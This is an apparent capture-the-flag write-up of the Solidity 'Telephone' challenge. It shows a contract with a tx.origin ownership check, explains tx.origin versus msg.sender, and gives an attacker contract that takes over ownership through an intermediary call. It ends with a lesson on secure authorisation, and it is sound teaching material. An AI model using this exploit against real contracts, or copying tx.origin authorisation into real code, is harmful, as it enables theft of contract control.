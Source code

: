 # Telephone

## Challenge Statement

The goal is to transfer ownership of the contract to yourself.

## Analysis

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  // target function to change ownership
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {  // to change ownership the tx.origin must not be the same as msg.sender
      owner = _owner;
    }
  }
}
```

What's the difference between tx.origin and msg.sender?

tx.origin = address of an account which is calling a smart contract’s function, only account address can be tx.origin.
msg.sender = address of an account or a smart contract which is directly calling a smart contract’s function.

This means if we deploy a smart contract and call a function in that smart contract which calls the target smart contract:
msg.sender = deployed smart contract address
tx.origin = our wallet address

## Solution

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface OGTelephone {
    function changeOwner(address _owner) external; 
}


contract T {
    address player_address = <player_address>;
    address target_contract = <target_contract_address>;

    function hack() public {
        OGTelephone(target_contract).changeOwner(player_address);
    }

}
```

## Moral 

Always use msg.sender when checking authorisation for the address calling a contract. Using tx.origin can lead for phishing attacks.